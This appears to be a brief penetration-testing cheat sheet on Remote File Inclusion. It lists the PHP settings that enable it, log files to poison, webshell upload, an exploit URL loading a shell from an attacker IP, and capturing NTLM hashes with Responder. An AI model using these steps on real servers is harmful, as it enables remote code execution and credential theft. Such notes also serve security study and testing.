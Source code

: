 # Manual

## Remote File Inclusion (RFI)

### Conditions

```
$ cat /etc/php/7.4/apache2/php.ini
..[snip]..
allow_url_fopen = On
allow_url_include = On
..[snip]..
```

- Poison log files to insert payload

```
/var/log/apache/access.log
/var/log/nginx/error_log
/var/log/auth.log
```

- Send via email

- Upload a webshell in a vulnerable file upload form

### General

#### Enumeration

```
https://google.com
HTTPS://google.com
httPs://google.com
```

#### Exploit

```
http://<attacker_IP>/shell.php
```

### Windows

#### Exploit

- Grab NTLM hashes with Responder

## References

- [Hacking Articles: Comprehensive Guide on Local File Inclusion (LFI)](https://www.hackingarticles.in/comprehensive-guide-to-local-file-inclusion/)

- [Hacking Articles: RCE with LFI and SSH Log Poisoning](https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/)

- [Local File Inclusion Code Execution](https://resources.infosecinstitute.com/topic/local-file-inclusion-code-execution/)

- [File Inclusion (Local/Remote)](https://notes.defendergb.org/web-sec/vuln/lfi-rfi)

- [Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)